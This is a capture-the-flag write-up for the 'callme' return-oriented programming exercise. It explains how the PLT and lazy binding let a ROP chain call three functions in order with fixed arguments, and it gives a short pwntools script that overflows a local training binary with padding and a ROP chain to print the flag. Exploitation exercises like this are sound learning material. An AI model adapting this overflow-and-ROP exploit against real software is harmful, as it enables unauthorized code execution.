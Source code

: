 # Call me

### 📄 Description 

### Failure is not an option

How do you make consecutive calls to a function from your ROP chain that won't crash afterwards? If you keep using the call instructions already present in the binary your chains will eventually fail. Consider why this might be the case.

### Procedure Linkage

The Procedure Linkage Table (PLT) is used to resolve function addresses in imported libraries at runtime, it's worth reading up about it and how lazy binding works. Even better, go ahead and step through the lazy linking process in a debugger, it's important you understand what resides at the addresses reported to you by commands like `rabin2 -i` and  `rabin2 -R`

### Correct order

I'll tell you the following:
You must call the `callme_one()` , `callme_two()` and `callme_three()`  functions in that order, each with the arguments 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d e.g.  callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)  to print the flag.

The solution here is simple enough, use your knowledge about what resides in the PLT to call the `callme_`  functions in the above order and with the correct arguments.

Don't get distracted by the incorrect calls to these functions made in the binary, they're there to ensure these functions get linked. You can also ignore the .dat files and encrypted flag in this challenge, they're there to ensure the functions must be called in the correct order.

## 🔑 Solution
We just need to call the three functions with the correct arguments and we get back the flag. Ez pz.

```python
from pwn import *

context.binary = "./callme"
r = ROP(context.binary)
p = process()
r.callme_one(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)
r.callme_two(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)
r.callme_three(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)
p.send(b"A" * 8 * 5 + r.chain())
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```